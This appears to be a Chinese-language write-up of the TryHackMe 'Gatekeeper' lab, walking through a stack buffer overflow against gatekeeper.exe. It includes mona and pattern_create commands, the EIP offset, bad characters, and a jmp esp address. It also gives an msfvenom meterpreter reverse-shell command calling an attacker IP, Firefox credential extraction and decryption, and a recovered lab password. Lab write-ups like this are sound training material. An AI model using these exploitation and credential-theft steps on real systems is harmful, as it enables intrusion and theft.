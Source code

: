 # Gatekeeper

你能越过大门，穿过火堆吗？

---

nmap扫

    135/tcp   open  msrpc
    139/tcp   open  netbios-ssn
    445/tcp   open  microsoft-ds
    31337/tcp open  Elite
    49152/tcp open  unknown
    49153/tcp open  unknown
    49154/tcp open  unknown
    49160/tcp open  unknown
    49161/tcp open  unknown
    49164/tcp open  unknown

先进smb看看有没有东西

    smbclient -L 10.10.90.4

有一个Users目录，连接进去之后搜寻一番发现了：

    gatekeeper.exe

先下载下来，根据经验，用nc尝试连接那个几个端口

连接31337端口后随便输点东西，然后它就崩了🤣

好吧其实它会接收输入的数据，刚刚输了点东西它崩了，不出意外就是栈溢出了

由于我没windows相应的调试环境，那就再借这个https://tryhackme.com/room/bufferoverflowprep 房间的windows靶机用一下。

还是利用Immunity Debugger打开gatekeeper.exe

    !mona config -set workingfolder c:\mona\%p

然后还是fuzz一波，再100字节上下就崩了。

我们生成200字节随机数据试一下

    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200

    !mona findmsp -distance 200

得出：

    EIP contains normal pattern : 0x39654138 (offset 146)

把200字节的随机数据删掉，我们自己生成146字节数据填充。

随便用四字节字符覆盖eip: "BBBB"

### 查找坏字符

    !mona bytearray -b "\x00"

    !mona compare -f C:\mona\gatekeeper\bytearray.bin -a <eip_addr>

\x0a上榜，去掉后：

    Unmodified

那么最终答案就是 \x00\x0a

### 找jmp esp地址：

    !mona jmp -r esp -cpb "\x00\x0a"

    盲猜一手小端序：将jmp esp地址倒转:

    080414c3 -> \xc3\x14\x04\x08

### 生成shellcode

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.14.39.48 LPORT=8888 EXITFUNC=thread -b "\x00\x0a" -f c

    在shellcode前面加 \x90 * 16或更多

将脚本ip改回本房间的靶机ip，运行

成功getshell

desktop下还有一个FireFox.lnk，根据提示：

    run post/multi/gather/firefox_creds

然后将文件名恢复，并使用firefox_decrypt.py恢复凭据：

    python3 /home/sugobet/firefox_decrypt.py ./

.

    Website:   https://creds.com
    Username: 'mayor'
    Password: '8CL7O1N78MdrCIsV'

rdp连进去，root.txt就在桌面
